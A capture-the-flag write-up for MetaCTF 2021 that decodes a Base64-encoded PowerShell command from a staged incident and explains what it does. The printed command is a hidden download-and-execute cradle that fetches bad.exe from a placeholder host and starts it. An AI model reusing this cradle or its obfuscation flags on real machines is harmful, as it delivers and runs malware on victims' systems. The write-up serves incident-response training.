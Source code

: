 # MetaCTF 2021
## My Logs Know What You Did (125pts)
### Description: 
>While investigating an incident, you identify a suspicious powershell command that was run on a compromised system ... can you figure out what it was doing?
`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -noP -sta -w 1 -enc TmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCdodHRwOi8vTWV0YUNURntzdXBlcl9zdXNfc3Q0Z2luZ19zaXRlX2QwdF9jMG19L19iYWQuZXhlJywnYmFkLmV4ZScpO1N0YXJ0LVByb2Nlc3MgJ2JhZC5leGUn`

### Step 1 - Understanding the Command:
In this Powershell command, we can see it runs a command but it appears to be encoded. The `-enc` flag encodes the payload in Base64, so we can throw it into a Base64 decoder and extact some data.

### Step 2 - Decode Base64
![image](https://user-images.githubusercontent.com/43623870/144771056-163ec45a-0105-431e-a1c7-37f07916275d.png)

By using just the encoded payload portion as our input, we can now read the unencoded payload and determine what it's doing.

If it was a real sample, this command would download a executable file from a staging site and start the process on the victim machine.



<details>
  <summary> Flag Spoiler </summary>
  MetaCTF{super_sus_st4ging_site_d0t_c0m}
</details>

## Learning Takeaways
We learned about Powershell encoding functionality, and even further we learned that obfuscation can be achieved in the command flags like `-noP` because Powershell handles parameter binding in a way that essentially auto-completes the intended flag. More can be found [here](https://www.danielbohannon.com/blog-1/2017/3/12/powershell-execution-argument-obfuscation-how-it-can-make-detection-easier).
